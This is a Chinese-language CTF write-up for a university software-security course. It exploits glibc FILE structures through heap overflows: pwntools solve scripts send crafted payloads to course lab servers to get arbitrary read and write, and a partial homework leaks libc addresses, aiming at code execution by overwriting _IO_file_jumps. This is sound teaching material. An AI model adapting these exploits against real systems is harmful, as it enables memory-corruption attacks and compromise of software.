


# 2022 交大程式安全 HW8 writeup

## [LAB] FILE_AAR
題目如下，這題是在考用 overflow 去做 FILE 的任意讀
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>

char flag[0x10] = "FLAG{TEST}\n";

int main(){
    FILE *fp;
    char *buf;

    buf = malloc(0x10);
    fp = fopen("/tmp/meow", "w");
    read(0, buf, 0x1000);
    fwrite(buf, 0x10, 1, fp);
    return 0;
}
```
按照講師投影片內容




以及用題目給的 example\
將題目的 source code 改寫為
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>

char flag[0x10] = "FLAG{TEST}\n";

int main(){
    FILE *fp;
    char *buf;
    buf = malloc(0x10);
    fp = fopen("/tmp/meow", "w");
    fp->_flags = 0xfbad0800;
    fp->_IO_read_end = fp->_IO_write_base = flag;
    fp->_IO_write_ptr = (char *)flag + sizeof(flag);
    fp->_IO_write_end = 0;
    fp->_fileno = 1;
    read(0, buf, 0x1000);
    fwrite(buf, 0x10, 1, fp);
    return 0;
}
```
重新編譯並執行

達成了題目要的目標，接下來要想辦法寫成 exploit 腳本

用 gdb 停在 call fopen 的下一行

印出 buf 位址裡存的內容

接下來繼續執行到 call read 這行

再看一次 buf 位址裡存的內容

此時可看到由於自己另外加的 code 而導致 buf 位址後面存的內容變得不一樣了\
也就是 fp 結構裡的內容已變成我們想要的樣子\
而紅框的部分則是有改變的內容\
1. 0xfbad0800：fp->_flags\
2. 0x404050：fp->_IO_read_end 和 fp->_IO_write_base，也就是 flag 變數的位址

3. 0x404060：fp->_IO_write_ptr，即 flag 變數的位址 + flag 變數的大小\
4. 0x1：fp->_fileno，1 表示 stdout

而且會發現 flag 變數的位址每次執行時都不會改變\
因此只要透過 overflow 將 buf 位址後面的內容竄改為這樣子就行了\
撰寫解題腳本，用 flat 將 payload 包成以 8 bytes 對齊
```python
# FILE_AAR/solve.py
from pwn import *

context.arch = 'amd64'
#context.terminal = ['tmux', 'splitw', '-h']
#r = process('./chal')
r = remote('edu-ctf.zoolab.org', 10010)

flags = 0
NO_WRITES = 0x8
MAGIC = 0xfbad0000
CURRENTLY_PUTTING = 0x0800
flags &= ~NO_WRITES
flags |= (MAGIC | CURRENTLY_PUTTING)
# print(hex(flags)) # 0xfbad0800

payload = flat(
    0, 0,
    0, 0x1e1,
    flags, 0,
    0x404050, 0,
    0x404050, 0x404060,
    0, 0,
    0, 0,
    0, 0,
    0, 0x7ffff7fbc5c0,
    0x1
)
#gdb.attach(r)
r.sendline(payload)
print(r.recvline().decode().strip())
```
這邊要注意的是 fileno 後面的內容由於每次執行時都會不同\
所以別蓋到 fileno 之後的東西，有蓋到後面的東西的話，程式執行結果會不如預期\
執行解題腳本

成功得出 flag 為 ```FLAG{QAQ...}```


## [LAB] FILE_AAW
題目如下，這題是在考用 overflow 去做 FILE 的任意寫，目標是竄改 owo 內容\
必須要讓程式最後用 strcmp 比對出來的結果跟原本的內容不同，才會印出 flag
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <fcntl.h>

char flag[0x10] = "FLAG{TEST}\n";
char owo[] = "OWO!";

int main(){
    FILE *fp;
    char *buf;
    buf = malloc(0x10);
    fp = fopen("/tmp/meow", "r");
    read(0, buf, 0x1000);
    fread(buf, 0x10, 1, fp);
    if (strcmp(owo, "OWO!") != 0)
        write(1, flag, sizeof(flag));
    return 0;
}
```
按照講師投影片內容


以及用題目給的 example\
將題目的 source code 改寫為
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <fcntl.h>

char flag[0x10] = "FLAG{TEST}\n";
char owo[] = "OWO!";

int main(){
    FILE *fp;
    char *buf;
    buf = malloc(0x10);
    fp = fopen("/tmp/meow", "r");
    fp->_flags = 0xfbad0000;
    fp->_IO_buf_base = fp->_IO_write_base = owo;
    fp->_IO_buf_end = (char *)owo + sizeof(owo);
    fp->_IO_read_ptr = fp->_IO_read_end = 0;
    fp->_fileno = 0;
    read(0, buf, 0x1000);
    fread(buf, 0x10, 1, fp);
    if (strcmp(owo, "OWO!") != 0)
        write(1, flag, sizeof(flag));
    return 0;
}
```
重新編譯並執行

達成了題目要的目標，接下來要想辦法寫成 exploit 腳本

用 gdb 停在 call fopen 的下一行

印出 buf 位址裡存的內容

接下來繼續執行到 call read 這行

再看一次 buf 位址裡存的內容

此時可看到由於自己另外加的 code 而導致 buf 位址後面存的內容變得不一樣了\
也就是 fp 結構裡的內容已變成我們想要的樣子\
而紅框的部分則是有改變的內容\
1. 0xfbad0000：fp->_flags\
2. 0x404070：fp->_IO_buf_base 也就是 owo 變數的位址

3. 0x404075：fp->_IO_buf_end，即 owo 變數的位址 + owo 變數的大小\
不過這邊 owo 變數的大小必須要如投影片裡所說的改成一個較大的 large value\
原因是要讓 ```_IO_buf_end - _IO_buf_base > want``` 符合條件，否則程式的執行結果會不如預期\
4. 0x0：fp->_fileno，0 表示 stdin

而且會發現 owo 變數的位址每次執行時都不會改變\
因此只要透過 overflow 將 buf 位址後面的內容竄改為這樣子就行了\
撰寫解題腳本，用 flat 將 payload 包成以 8 bytes 對齊\
_IO_buf_end 的數值改為 ```_IO_buf_base + large value```，large value 我設成 0x20
```python
# FILE_AAW/solve.py
from pwn import *

context.arch = 'amd64'
#context.terminal = ['tmux', 'splitw', '-h']
#r = process('./chal')
r = remote('edu-ctf.zoolab.org', 10009)

flags = 0
NO_READ = 0x4
EOF_SEEN = 0x10
MAGIC = 0xfbad0000
flags &= ~(NO_READ | EOF_SEEN)
flags |= MAGIC
# print(hex(flags)) # 0xfbad0000

payload = flat(
    0, 0,
    0, 0x1e1,
    flags, 0,
    0, 0,
    0, 0,
    0, 0x404070,
    0x404070+0x20, 0,
    0, 0,
    0, 0x7ffff7fbc5c0,
    0
)
#gdb.attach(r)
r.sendline(payload)
r.interactive()
```
執行解題腳本，程式會跑到 fread 的地方，輸入足夠長的字串

成功得出 flag 為 ```FLAG{sushi}```
不過這邊要注意的是，程式 fread 時，要用 interactive\
不要用 sendline，否則跑起來有可能會噴 EOF 錯誤\
## [HW] miniums
這題跟 pwn 第二週的 HW 類似，不過題目把 data 的部分改為 ```FILE *```
以及 edit_data 時 data 大小限制在 0x200 以內\
因此無法像第二週 HW 一樣 free 掉會被放入 unsorted bin 裡 (chunk size 小於 0x410)\
不過這邊在 allocate memory 時，放在 heap 裡的會是 FILE 的結構\
在某些情況下被 free 掉還是會被放到 unsorted bin 或 large bin 等等

首先，也是跟第二週 HW 一樣要先 leak 出 main_arena 的位址\
有了 main_arena 的位址才能用相對距離推算出 system 的位址\
而這題如果 chunk 中的內容如果有殘留 fd 或 bk 的話\
在 show 印出資料的時候，會印出 fd 或 bk，就能 leak 出指向 main_arena 的位址

使用以下方式來堆 heap
```python
add_user(0, b'0')
edit_data(0, 0x1, b'a')

add_user(1, b'1')
del_user(0)

add_user(2, b'2')
edit_data(2, 0x1, b'b')

add_user(3, b'')
edit_data(3, 0x1, b'c')
```
在 show 的時候會發現有類似位址的東西被印出來，這個就是 fd

用 gdb 去看，會發現印出來的東西就是 main_arena+1418 的位址


而 add_user 3 的時候不送任何資料是因為它會蓋掉 fd 的結尾幾個 bytes\
所以這邊不送任何資料，就只有 '\n' 會蓋掉 fd 的最後一個 byte 變成 0x0a\
而且蓋完後的位址剛好又會在 main_arena 裡\
因此可使用這種方式推算出 main_arena 和 system 的位址\
用 gdb 查看 system 的絕對位址

將 main_arena+1418 的位址 與 system 的位址相減得到他們之間的相對距離

得出 ```system 的位址 = main_arena+1418 的位址 - 0x19ae7a```

撰寫腳本，印出 main_arena+1418 與 system 的位址
```python
# miniums/solve.py
from pwn import *

context.arch = 'amd64'
#context.terminal = ['tmux', 'splitw', '-h']
#r = process('./chal')
r = remote('edu-ctf.zoolab.org', 10011)

def add_user(index, name):
    r.sendlineafter(b'> ', b'1')
    r.sendlineafter(b'index\n> ', str(index).encode())
    r.sendlineafter(b'username\n> ', name)

def edit_data(index, size, data):
    r.sendlineafter(b'> ', b'2')
    r.sendlineafter(b'index\n> ', str(index).encode())
    r.sendlineafter(b'size\n> ', str(size).encode())
    r.sendline(data)

def del_user(index):
    r.sendlineafter(b'> ', b'3')
    r.sendlineafter(b'index\n> ', str(index).encode())
```
```python
add_user(0, b'0')
edit_data(0, 0x1, b'a')

add_user(1, b'1')
del_user(0)

add_user(2, b'2')
edit_data(2, 0x1, b'b')

add_user(3, b'')
edit_data(3, 0x1, b'c')

r.sendlineafter(b'> ', b'4')
r.recvuntil(b'[3] \n')
addr = bytearray(r.recvline())
addr.pop()
main_arena_1418 = u64((b'\n' + addr).ljust(8, b'\x00'))
print(hex(main_arena_1418))
system = main_arena_1418 - 0x19ae7a
print(hex(system))
```
leak 出我們要的位址後才有辦法繼續做 exploit\
這題最終的目標是要拿到 shell\
不過問題是雖然已經有了 system 的位址，那接下來要怎麼做 exploit\
這邊就剛好想到講師上課的影片有一部份是在 demo RCE\
https://youtu.be/_TYWsA8gEW0?t=10421

看完後發現我們的目標似乎就跟這個 RCE 的 demo 一樣\
因為 system 位址已經有了\
而 _IO_file_jumps 的位址也可用一樣的方法推算出來


得出 ```_IO_file_jumps 的位址 = main_arena+1418 的位址 - 0x3c6a```

寫進腳本中
```python
_IO_file_jumps = main_arena_1418 - 0x3c6a
print(hex(_IO_file_jumps))
```
接下來，跟 demo 一樣把 _IO_file_jumps 裡的內容改為全都是 system 的位址就行了\
竄改的方式是，用 AAW (任意寫) 將 system 的位址寫進目標位址裡 (_IO_file_jumps)\
跟 LAB 的 AAW 那題稍微不同，LAB 的 AAW 那題是將要寫入的資料從 stdin (fileno=0) 讀入\
而這邊是將要寫入的資料 (system 的位址) 先放在已經 open 的 file 裡\
做 AAW 的時候再從對應的 fileno 讀入\
stdin, stdout, stderror 分別為 0, 1, 2，那麼 fileno 會根據 file 的 open 順序從 3 開始\
因此我使用跟 LAB 的 AAW 幾乎一樣的做法\
只有把 fp->_IO_buf_base、_IO_buf_end 以及 fileno 改掉而已

不過我做到這邊就卡關了，程式沒有成功將資料寫進 _IO_file_jumps 裡\
debug 了很久還是找不出原因，所以就沒繼續做下去
